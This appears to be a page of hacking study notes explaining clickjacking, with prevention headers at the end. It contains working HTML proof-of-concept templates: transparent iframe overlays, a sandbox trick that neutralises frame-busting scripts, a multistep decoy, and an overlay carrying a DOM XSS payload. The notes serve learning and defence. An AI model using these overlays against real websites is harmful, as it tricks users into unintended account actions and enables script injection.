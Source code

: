 ```yaml
---
title: Clickjacking
category: Web
order: 19
---
```


Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

This attack differs from a CSRF attack in that the user is required to perform an action such as a button click whereas a CSRF attack depends upon forging an entire request without the user's knowledge or input.


# Basic clickjacking attack

You can manually create a clickjacking proof of concept.

```html
<head>
	<style>
		.target_website {
			position:relative;
			width:900px;
			height:700px;
			opacity:0.00001;
			z-index:2;
			}
		.decoy_website {
			position:absolute;
			top:300px;
			left:400px;
			z-index:1;
			}
	</style>
</head>

<body>
	<div class="decoy_website">
	...decoy web content here...
	</div>
	<iframe class="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

![](/hackingnotes/images/clickjacking.png)

> **Note**: Use `opacity: 0.1` in order to set propperly the `decoy website` into a real button. Finally change it to `opacity:0.000001`.

Or alternativelly you can use `Burp Clickbandit` tool.

![](/hackingnotes/images/clickbandit.png)


# Frame busting scripts

Clickjacking attacks are possible whenever websites can be framed. Therefore, preventative techniques are based upon restricting the framing capability for websites. A common client-side protection enacted through the web browser is to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript. 

An effective attacker workaround against frame busters is to use the HTML5 iframe `sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window: 

```html
<style>
    iframe {
        position:relative;
        width:900px;
        height:700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://example.com/my-account?email=test@test.com" sandbox="allow-forms"></iframe>
```

# Combining clickjacking with a DOM XSS attack

The true potency of clickjacking is revealed when it is used as a carrier for another attack such as a DOM XSS attack. Implementation of this combined attack is relatively straightforward assuming that the attacker has first identified the XSS exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack. 


```html
<style>
    iframe {
        position:relative;
        width:900px;
        height:1200px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:795px;
        left:80px;
        z-index: 1;
opacity: 1;
    }
</style>
<div>click me</div>
<iframe src="https://example.com/feedback?name=%3Cimg%20src=x%20onerror=alert(1)%3E&email=test@test.com&subject=test&message=test" ></iframe>
```

# Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. 

```html
<style>
	.target_website {
		position:relative;
		width:900px;
		height:700px;
		opacity:0.1;
		z-index:2;
		}
	.decoy_website_1 {
		position:absolute;
		top:525px;
		left:50px;
		z-index:1;
		}
	.decoy_website_2 {
		position:absolute;
		top:290px;
		left:200px;
		z-index:1;
		}
</style>
<div class="decoy_website_1">Click me first</div>
<div class="decoy_website_2">Click me next</div>
<iframe class="target_website"  src="https://example.com/my-account"></iframe>
```

# Preventing clickjacking

There are two mechanisms for server-side clickjacking protection, `X-Frame-Options` and `Content Security Policy`.

* More restrictive:

```
X-Frame-Options: deny
Content-Security-Policy: frame-ancestors 'none';
```

* Less restrictive:

```
X-Frame-Options: sameorigin
Content-Security-Policy: frame-ancestors 'self';
```